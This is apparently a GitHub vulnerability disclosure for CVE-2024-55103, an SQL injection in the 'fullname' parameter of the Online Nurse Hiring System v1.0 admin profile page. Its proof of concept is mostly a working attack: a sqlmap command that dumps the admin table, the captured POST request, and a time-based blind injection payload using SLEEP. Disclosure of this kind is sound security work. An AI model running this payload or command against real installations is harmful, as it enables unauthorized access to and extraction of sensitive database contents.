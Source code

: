 # CVE-2024-55103-Online-Nurse-Hiring-System-v1.0-SQL-Injection-Vulnerability
+ Exploit Author: ugurkarakoc
# Vendor Homepage
+ https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=17826
# Overview
+ Online Nurse Hiring System  V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'fullname' parameter in the profile.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-55103
+ Affected Version: Online-Nurse-Hiring-System-v1.0
+ Vulnerable File: /admin/profile.php.
+ Parameter Names: fullname
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-55103
+ https://nvd.nist.gov/vuln/detail/CVE-2024-55103
# Description
+ The lack of proper input validation and sanitization on the 'fullname' parameters allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database


# Proof of Concept (PoC) : 
+ sqlmap -r r3.txt -dbs  --level 5 --risk 3 --batch -D onhsdb -T tbladmin --columns --dump

```
---
POST /onhs/admin/profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/onhs/admin/profile.php
Cookie: PHPSESSID=lp63nma98u3lr6mke4jv8irlhv
Upgrade-Insecure-Requests: 1
Priority: u=0, i

sadminusername=admin&fullname=Admin&emailid=admin%40gmail.com&mobilenumber=1234596321&regdate=2021-04-19+21%3A30%3A00&update=

---
```

```
---
Parameter: fullname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sadminusername=admin&fullname=Admin' AND (SELECT 1358 FROM (SELECT(SLEEP(5)))nzdE) AND 'ZKIL'='ZKIL&emailid=admin@gmail.com&mobilenumber=1234596321&regdate=2021-04-19 21:30:00&update=
---
```

![image](https://github.com/user-attachments/assets/a472effd-5ce5-45de-8d41-5afb00da816a)

